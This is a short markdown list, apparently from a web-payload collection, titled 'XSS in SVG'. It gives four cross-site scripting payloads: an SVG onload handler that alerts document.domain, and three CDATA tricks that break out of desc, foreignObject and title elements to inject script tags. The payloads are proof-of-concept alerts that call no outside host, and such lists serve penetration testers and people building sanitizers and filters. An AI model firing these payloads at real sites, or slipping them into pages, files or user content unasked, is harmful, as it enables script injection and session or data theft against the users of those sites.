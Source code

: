 # XSS in SVG

- `<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>`
- `<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>`
- `<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>`
- `<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>`
